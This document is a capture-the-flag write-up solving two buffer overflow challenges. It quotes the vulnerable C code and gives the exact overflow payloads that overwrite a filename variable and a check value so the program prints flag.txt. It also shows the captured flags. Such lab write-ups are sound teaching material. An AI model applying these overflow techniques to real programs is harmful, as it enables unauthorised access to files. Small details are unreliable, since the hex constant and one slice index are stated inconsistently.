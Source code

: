 # Buffer Overflow

This CTF consists in two very similar challenges. In each of them, we had to exploit a program with a buffer overflow vulnerability in order to access a file named "flag.txt", which, as the name implies, contained the flag.

Each challenge came with a folder which contained a few files. The most relevant were the following:

* **main.c** - the source code of the vulnerable program
* **program** - the executable corresponding to the vulnerable program

## 1st flag

### Analysis

Before attempting to exploit the program, we had to properly understand its source code. As such, we opened "main.c" and started thoroughly scrutinizing it.

The script itself was pretty simple. It can be summarized as follows:

1. Create two character arrays, "meme_file" and "buffer", with sizes 8 and 32, respectively.

```c
char meme_file[8] = "mem.txt\0";
char buffer[32];
```

2. Read 40 characters of user input and store them in the "buffer" array.

```c
scanf("%40s", &buffer);
```

3. Open the file whose name is given by the "meme_file" variable.

```c
FILE *fd = fopen(meme_file,"r");
```

4. Attempt to read from the file, if it exists, and store its content on "buffer". Then, print "buffer".

```c
while(1){
    if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
        printf("%s", buffer);
    } else {
        break;
    }
}
```

**Note:** This step is equivalent to printing the content of the file, given it exists.

Upon analyzing this script, it became glaringly obvious that we could overwrite the contents of "meme_file" by purposefully overflowing the "buffer". This is because the two variables are side by side in **memory** and, since "buffer" is initialized after "meme_file", the end of "buffer" corresponds to the start of "meme_file".

### Preparing the Payload

As recommended by the guide, we used the "exploit_example.py" script to interact with the program.

Before executing it, though, we had to create the payload we would use to cause the buffer overflow. Since our input was limited to the command line, it would have to be a string with the following restrictions:

* Since "buffer" is 32 bytes, the length of the string had to be greater than that to trigger the buffer overflow.
* The string had to contain the name of the file we wanted to access, "flag.txt", immediately after the 32nd character in order to overwrite the "meme_file" variable. In Python, this can be expressed as follows:

```python
string[32:] = "flag.txt"
```

As such, we opted to use the following string: 

```python
"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt" # 32 * 'a' + "flag.txt"
```

### Attack!

With our payload ready, we modified the Python script so that it would send it to the program.

```python
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt")
```

**Note:** The 'b' before the string means the characters will be encoded as <u>octets</u> (integers ranging from 0 to 255), which is the format C uses for character encoding.

Finally, we were ready to attack. Running our script, we got the following output:

![Alt text](image.png)

We found the first flag: `flag{f658895ccf55dc13834f5764c8338de3}`!

## 2nd flag

### Analysis

Once again, our first task was investigating the source code. Opening "main.c", we realized this program was quite similar to the one from the [previous challenge](#1st-flag). 
Its behaviour is described below:

1. Initialize three character arrays by this order: "meme_file" (9 bytes), "val" (4 bytes), and "buffer" (32 bytes).

```c
char meme_file[9] = "mem.txt\0\0";
char val[4] = "\xef\xbe\xad\xde";
char buffer[32];
```

This means that "buffer" is adjacent to "val" in **memory** and "val" is adjacent to "meme_file". So, in order to overwrite "meme_file", we had to overwrite "val" first.

2. Read 45 characters of user input and store them in the "buffer" array.

```c
scanf("%45s", &buffer);
```

3. Convert "val" into an integer pointer and dereference it. After that, compare the result with `0xfefc2324`.

```c
if(*(int*)val == 0xfefc2324) {
    ...
}
```

4. If the previous values are equal, open the file whose name is given by the "meme_file" variable.

```c
FILE *fd = fopen(meme_file,"r");
```

5. Attempt to read from the file, if it exists, and print its content.

```c
while(1){
    if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
        printf("%s", buffer);
    } else {
        break;
    }
}
```

Once again, we had to overflow "buffer" to overwrite the contents of "meme_file". Unlike last time, though, we had to be concerned with properly overwriting "val" as well, since the code that accessed the file was only executed when "val" equalled 0xfefc2324.

### Preparing the Payload

Since this challenge did not provide a script for interacting with the program, we copied the one we [previously](#preparing-the-payload) used.

Yet again, we had to create the string we would use as a payload. The restrictions this time were the following:

* The size of the string had to be greater than 32 bytes so that we could properly overflow the "buffer" variable.
* The bytes in the positions 32 to 36 would have to contain the characters whose hexadecimal values corresponded to `0xfcfe2324`. In Python, this restriction would be represented like this:

```python
string[32:36] = "\x24\x23\xfc\xfe"
```

**Note:** Since the address of "val" comes right after the end of "buffer", we overwrote its content from its <u>least significant</u> bytes to its <u>most significant</u>. As such, we had to write the hexadecimal characters in <u>reverse</u>.

* The string had to contain the name of the file we wanted to access, "flag.txt", immediately after its 36th character. In Python, this could be represented as follows:

```python
string[37:] = "flag.txt"
```

Taking that into account, we chose to use the following string:

```python
"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x24\x23\xfc\xfeflag.txt"
```

### Attack!

Having decided our payload, we copied it onto our Python script so that it would be sent to the program.

```python
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x24\x23\xfc\xfeflag.txt")
```

It was time to attack once again. This time, executing our exploit net us the following output:

![Alt text](image-1.png)

We found the second flag: `flag{c586c7c8e1587ed588f60088a760ad1f}`!

